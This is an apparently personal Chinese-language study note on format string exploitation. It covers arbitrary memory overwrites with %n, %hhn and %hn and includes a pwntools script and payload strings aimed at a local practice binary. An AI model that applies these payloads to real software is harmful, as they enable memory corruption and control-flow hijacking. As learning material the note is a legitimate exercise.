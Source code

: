 ![image.png](https://cdn.nlark.com/yuque/0/2020/png/403807/1594805399468-fcd922f7-de3c-41e1-b231-0e7878374cf9.png)

### 覆盖任意地址内存 

#### 覆盖小数字 

首先，我们来考虑一下如何修改 data 段的变量为一个较小的数字，比如说，**小于机器字长的数字**。这里以 2 为例。可能会觉得这其实没有什么区别，可仔细一想，真的没有么？如果我们还是将要覆盖的地址放在最前面，那么将直接占用机器字长个 (4 或 8) 字节。显然，无论之后如何输出，都只会比 4 大。

aa%k$nxx，如果用这样的方式，前面 aa%k 是第6个参数，$nxx 是第7个参数，后面在跟一个地址，那么这个地址就是第8个参数，只需要把 k 改成 8 就可以把这第八个参数改成想要的数值，aa%8$nxx

![image.png](https://cdn.nlark.com/yuque/0/2020/png/403807/1594805785212-d9c362de-7931-4fff-b686-66299faeec20.png)

```python
def fora():
    sh = process('./overflow')
    a_addr = 0x0804A024
    payload = 'aa%8$naa' + p32(a_addr)
    sh.sendline(payload)
    print sh.recv()
    sh.interactive()
```

![image.png](https://cdn.nlark.com/yuque/0/2020/png/403807/1594805897032-9e8893da-17f1-444d-88e0-7018ae3204f2.png)

我们没有必要必须把地址放在最前面，放在那里都可以，只要我们可以找到其对应的偏移即可。

#### 覆盖大数字 

首先，所有的变量在内存中都是以字节进行存储的。

在 x86 和 x64 的体系结构中，变量的存储格式为以小端存储，即最低有效位存储在低地址。举个例子，0x12345678 在内存中由低地址到高地址依次为 \ x78\x56\x34\x12。

hh 对于整数类型，printf期待一个从char提升的int尺寸的整型参数。

h  对于整数类型，printf期待一个从short提升的int尺寸的整型参数。

emmm,这是啥啊.....

总之：hhn 写入的就是单字节，hn 写入的就是双字节

![image.png](https://cdn.nlark.com/yuque/0/2020/png/403807/1594806517124-c3137d41-d378-47fa-ace0-d6f03b4effd5.png)

我们希望将按照如下方式进行覆盖，前面为覆盖地址，后面为覆盖内容。

0x0804A028 \x78 

0x0804A029 \x56 

0x0804A02a \x34 

0x0804A02b \x12

所以payload：

p32(0x0804A028)+p32(0x0804A029)+p32(0x0804A02a)+p32(0x0804A02b)+pad1+'%6$n'+pad2+'%7$n'+pad3+'%8$n'+pad4+'%9$n'
